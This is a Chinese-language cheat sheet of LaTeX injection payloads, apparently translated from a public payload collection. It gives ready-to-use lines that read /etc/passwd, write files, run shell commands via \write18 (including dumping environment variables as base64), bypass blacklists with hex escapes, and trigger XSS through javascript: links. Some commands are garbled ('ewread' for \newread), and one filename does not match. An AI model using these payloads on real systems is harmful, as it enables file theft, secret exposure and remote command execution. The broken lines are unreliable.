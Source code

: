 # LaTex 注入

您可能需要使用`\[`或`$`等包装器调整注入。

## 读取文件

读取文件并解释其中的LaTeX代码：

```tex
\input{/etc/passwd}
\include{somefile} # 加载.tex文件（somefile.tex）
```

读取单行文件：

```tex

ewread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

读取多行文件：

```tex
\lstinputlisting{/etc/passwd}

ewread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

读取文本文件，**不**解释内容，只会粘贴原始文件内容：

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

如果注入点位于文档头部之后（无法使用`\\usepackage`），可以通过停用某些控制字符来使用`\\input`读取包含`$`、`#`、`_`、`&`、空字节等的文件（例如perl脚本）。

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

要绕过黑名单，尝试将一个字符替换为其Unicode十六进制值。

- ^^41 代表大写字母A
- ^^7e 代表波浪号（~），注意‘e’必须是小写

```tex
\lstin^^70utlisting{/etc/passwd}
```

## 写入文件

写入单行文件：

```tex

ewwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

## 命令执行

命令的输出将被重定向到stdout，因此您需要使用临时文件来获取它。

```tex
\immediate\write18{id > output}
\input{output}
```

如果您遇到任何LaTeX错误，请考虑使用base64来获取结果，避免出现不良字符（或使用`\\verbatiminput`）：

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```

## 跨站脚本攻击

来自[@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130) 

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

在`http://payontriage.com/xss.php?xss=$\href{javascript:alert(1)}{Frogs%20find%20bugs}$`上有实时示例

## 参考资料

* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)
